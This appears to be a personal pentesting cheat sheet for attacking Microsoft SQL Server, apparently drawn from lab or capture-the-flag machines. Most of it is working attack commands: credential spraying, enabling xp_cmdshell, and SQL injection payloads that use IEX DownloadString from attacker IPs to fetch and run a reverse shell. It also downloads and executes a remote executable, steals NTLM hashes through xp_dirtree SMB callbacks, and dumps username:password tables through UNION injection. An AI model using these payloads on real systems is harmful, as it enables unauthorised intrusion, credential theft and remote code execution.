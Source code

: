 # MSSQL Port 1433

##### Enumeration

````
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $IP
````

##### Impacket

````
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
````

##### Invoke-RunAs

If you have credentials for another user on a system, but cannot seem to login as them through any of the traditional methods, use the "Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "<reverse shell code>"" and execute a reverse shell to get onto the system as them.

##### Crackmapexec

````
proxychains crackmapexec mssql -d example.com -u sql_service -p password123  -x "whoami" 10.10.126.148
proxychains crackmapexec mssql -d example.com -u sql_service -p password123  -x "whoami" 10.10.126.148 -q 'SELECT name FROM master.dbo.sysdatabases;'
````

##### NetExec

Do not trust nxc's mssql  thing. try it manually, "impacket-mssqlclient administrator:hghgib6vHT3bVWf@10.10.112.154 -windows-auth"

````
nxc mssql $ip -u users.txt -p passwords.txt --continue-on-success
nxc mssql $ip -u users.txt -H $HASH --continue-on-success
````

##### Logging in

````
sqsh -S $ip -U sa -P CrimsonQuiltScalp193 #linux
proxychains sqsh -S 10.10.126.148 -U example.com\\sql_service -P password123 -D msdb #windows
````

##### Expliotation

```bash
xp_cmdshell whoami
enable_xp_cmdshell

# set up smb share locally to grab hash
xp_dirtree \\10.10.14.8\fake\share
```

````
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell 'whoami'
go
xp_cmdshell 'powershell "Invoke-WebRequest -Uri http://10.10.126.147:7781/rshell.exe -OutFile c:\Users\Public\reverse.exe"'
go
xp_cmdshell 'c:\Users\Public\reverse.exe"'
go
````

Revshell Command that worked:

```bash
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.163:8000/rev.ps1") | powershell -noprofile';--+
```

#### Possible Queries

Test for xp_cmdshell first. A great guide is pentestmonkey's mssql cheatsheet.

Test for stacked queries, which is unique to MSSQL. Open up share on machine, or nc on 445.

```bash
q=500'; exec xp_dirtree '\\10.10.14.8\share\file';-- - # Used 500' bc union returned on this
```

Test for xp_cmdshell.

```bash
q=500'; exec xp_cmdshell 'ping 10.10.14.8';-- - # Run sudo tcpdump -i tun0 icmp
q=500'; exec sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; exec xp_cmdshell 'ping 10.10.14.8';-- -
q=500' UNION SELECT 1,2,3,4,5,6; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.8:8000/rev.ps1") | powershell -noprofile';--+
q=500' UNION SELECT 1,2,3,4,5,6; exec sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.8:8000/rev.ps1") | powershell -noprofile';--+
```

For this, test for SQLi by doing something like '500%-- -' and checking response. Pick a field in response that only is returned for a valid search, and see when it's not returned.

```bash
select * from movies where name like '%500%';
q=500%'-- -
q=%500'-- -
q=500%' union select 1,2,3-- - # Until that field is returned
q=500' union select 1,2,3,4,5,6-- - # Same, RETURNED
q=500' union select 1,7337,9001,4,5,6-- -
q=500' union select 1,7337,9001,4,5,6-- -
q=500' union select 1,@@version,9001,4,5,6-- -
q=500' union select 1,user,9001,4,5,6-- -
q=500' union select 1,db_name(0),9001,4,5,6-- - # Run through integers to enum dbs
q=500' union select 1,name,3,4,5,6 from streamio..sysobjects where xtype='u'-- - # db is streamio
q=500' union select 1,CONCAT(name,':',id),3,4,5,6 from streamio..sysobjects where xtype='u'-- -
q=500' union select 1,string_agg(CONCAT(name,':',id),'|'),3,4,5,6 from streamio..sysobjects where xtype='u'-- - # Putting on a single row
q=500' union select 1,string_agg(CONCAT(name,':',id),'|'),3,4,5,6 from streamio..syscolumns where id=901578250-- - # 901.. is the users table that was returned from id
q=500' union select 1,string_agg(name,'|'),3,4,5,6 from streamio..syscolumns where id=901578250-- - # Don't need the id anymore, the last two have returned the columns, such as password, username, but not the data itself
q=500' union select 1,string_agg(concat(username,':',password),'|'),3,4,5,6 from users-- -
q=500' union select 1,string_agg(concat(username,':',password),'|'),3,4,5,6 from streamio..users-- -
```

```bash
select * from movies where CONTAINS (name, '*500*');
```

#### Enumeration

```bash
SELECT name FROM sys.databases;
```
##### Notes

If you're chiseling to look at mssql through the website on your localhost, go to phpmyadmin directory on the website

#### On Windows

If it has MSSQL installed. If not, you could always use Chisel.

```bash
sqlcmd -U db_admin -P 'B1@hx31234567890' -Q "USE STREAMIO_BACKUP; select username,password from users;"
```

```bash
sqlcmd -?
sqlcmd -Q "select * from sys.databases"
sqlcmd -Q "select name from sys.databases"
sqlcmd -Q "use ADSync; select * from ADSync..sysobjects"
sqlcmd -Q "use ADSync; exec xp_dirtree '\\10.10.14.8\share\file'"
sqlcmd -Q "use ADSync; select name from PK_mms_management_agent"
```

```bash
. .\PowerUpSQL.ps1
Invoke-SQLAudit -Verbose
```

If AD Azure, check out "https://blog.xpnsec.com/azuread-connect-for-redteam/".